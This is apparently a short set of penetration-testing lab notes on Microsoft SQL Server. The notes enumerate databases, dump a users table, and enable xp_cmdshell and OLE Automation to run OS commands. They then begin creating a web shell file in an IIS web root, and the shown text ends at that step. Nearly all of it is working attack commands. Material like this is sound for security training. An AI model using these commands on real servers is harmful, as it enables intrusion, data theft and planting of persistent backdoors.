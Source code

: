 ##### MSSQL
If we use sqlcmd, we will need to use GO after our query to execute the SQL syntax
```cmd-session
SELECT name FROM master.dbo.sysdatabases
```
```cmd-session
GO
```
```cmd-session
USE htbusers
```
```cmd-session
GO
```
```cmd-session
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
```
```cmd-session
GO
```
```cmd-session
SELECT * FROM users
```
```cmd-session
go
```
```cmd-session
xp_cmdshell 'whoami'
```
```cmd-session
GO
```

If xp_cmdshell is not enabled, we enable it with:
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

To write files, me must enable Ole Automation Procedures
```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
Create a file
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
```